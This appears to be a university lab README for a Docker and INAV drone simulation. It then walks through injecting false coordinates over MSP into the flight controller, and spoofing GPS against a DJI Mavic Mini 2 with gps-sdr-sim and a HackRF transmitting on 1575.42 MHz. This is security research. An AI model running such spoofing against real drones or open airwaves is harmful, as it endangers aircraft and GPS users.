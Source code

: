 # Complete Guide to Setting up SITL (Software-in-the-Loop) Environment for Drones using Docker and INAV

This guide provides step-by-step instructions for creating and running this environment.

## Structure of the 'environment

![struttura](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Structure.png)

## Download Inav-Configurator for your machine(the link below is for mac machine)

```
   https://github.com/iNavFlight/inav-configurator/releases/download/6.1.0/INAV-Configurator_macOS_6.1.0.dmg

```

General repo link: https://github.com/iNavFlight/inav-configurator/releases

## Download the repository and navigate to the folder docker-compose-inav

```
   git clone https://github.com/NS-unina/GCAP_Mod.git
   cd ~/docker-compose-inav
```

## Run build command

```
docker-compose build
```

## Run up command

```
docker-compose up -d

```

## Launch docker exec for each container one for views in the terminal

```
   1. docker exec -ti flight_controller bash
   2. docker exec -ti gps bash

```

## Continue to the relevant directories into flight_controller container

```
1. cd ~/inav-6.1.1/build_SITL
```

## Startup command for flight_controller.

```
1. ./inav_6.1.1_SITL
```

![flightcontroller](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Flight_Controller.png)

After starting the flight_controller open Inav-Configurator on your computer

## Inav-Configurator

Open Inav-Configurator on your machine and follow the image to set the environment correctly

![inav-Configurator](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Inav-Configurator_1.png)
![Istruzioni 1](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/inav-Configurator_2.png)
![TCP_port](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/TCP_port.png)
![Istruzioni 2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/inav_Conf_final.png)
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricopter.png)
![](<[https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricopter.png](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricopter1_1.png)>)
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricpoter1_2.png)
In step 7 choose gps and 9600 and click save and reboot
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricpoter1_3.png)
Enable gps for navigation and telemetry and Galileo set and change protocol to NMEA and finally save and reboot
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Quadricpoter1_4.png)
Now the Gps will enable and it will be red because it is not receiving any data

After completing the setup let's move to the gps-related docker terminal

## Before starting the gps script you need to edit the code and enter the correct ip related to the docker network

Follow steps

```
1. Open a new terminal and run this command to verify the ip address
2.  docker inspect fligh_controller
```

![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Docker_inspect.png)

## Gps terminal

Return to the gps terminal and run these commands

```
1. ./micro gps_nmea_SGTD_FG.py

```

Change ip and port

![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/microgps.png)

```
2.  python3 gps_nmea_SGTD_FG.py

```

![python3 gps](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/python3gps.png)

## Results on Inav-Configurator

![Risultati](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Risultati.png)
You can see that after launching the script in python the gps turned blue, this indicates that it is receiving data and the result you can see the real time on Inav-Configurator.
Below is a gif extracted from the program

![gif](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/Gifgps.gif)


## After the overall configuration we move on to the security of the enviroment

## 1. Software Attack


The first step is to change the INAV gps configuration

## Modify Inav-Configurator
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack1.png)
In step 18 choose Enable MSP and click save and restart 
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack2.png)
Enable gps for navigation and telemetry and set up Galileo and change the protocol to MSP and finally save and restart.

## Launching docker exec for the Attacker container in a dedicated terminal 

```
   1. docker exec -ti attack bash

```
![Container attack](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack_terminale_3.png)


## Gps terminal

After the complete setting of Inav and the attacker container we return to the gps terminal and run this command for start the mission

```
1. python3 missioneMSP.py  --ip 172.18.0.2 --port 5762 --file gps_coordinate_missione.txt

```

The result of INAV receiving of the mission
![Screen missione coordinate MSP](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/CoordinateGPS_misisone_MSP.png)



## Attacker terminal

Move to the attacker terminal and launch this command to complete the attack

```
1. python3 attackMSP.py --ip 172.18.0.2 --port 5761 --file Coordinate_Attacco.txt

```


The result of the INAV receiving the attack coordinates at the same time as it is receiving the mission coordinates to be carried out

![Screen missione coordinate Attacco](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Coordinate_attaccante.png)


## 2. Physical Attack

After carrying out a software attack, to see if it was possible to carry out the same attack on a physical level, we equipped ourselves with a dji drone and a HackRF One

## Setting up the Environment
### Physical Instruments

The physical instruments useful for the complete set are a HackRF and a dji drone in this case a Mavic mini 2

![Mavic mini 2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/mavicmini2-removeb.png)
![HackRF ONE](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/HAckRFOne.jpg)



### Software Istruments

The relevant software tool to carry out the attack is gps-sdr-sim available at the following link :https://github.com/osqzss/gps-sdr-sim


```
1. The first step is to download the RINEX navigation files for GPS ephemerides.
It is necessary to download the latest file directly from the NASA website: https://cddis.nasa.gov/archive/gnss/data/daily/.

```
![Rinix1](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix1.png)
![Rinix2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix2.png)
![Rinix3](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix3.png)
![Rinix4](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix4.png)
![Rinix5](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix5.png)


After downloading the file, copy it into the gps-sdr-sim directory (which has been previously compiled and set according to the guide in the previous link) and run the following command to create the .C8 file for the coordinates

```
 ./gps-sdr-sim -e brdc3170.23n -s 2600000 -b 8 -o TestCina.C8 -l 30.293650, 120.161420,100 -d 10 

```

After creating the file, you need to install the hrfs software by following the following linkk guide :https://hackrf.readthedocs.io/en/latest/installing_hackrf_software.html


When installation is complete, connect the whole set as in the photo:

![setComplite](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/set_complite.png)


Now, after connecting everything, you need to move to the gps-sdr-sim directory and run the following command to start the attack


```
 ./hackrf_transfer -t Testcina.C8 -f 1575420000 -s 2600000 -a 0 

```

Running scripts

![Running scripts]()


### Results

![Risultato1]()

![Risultato2]()

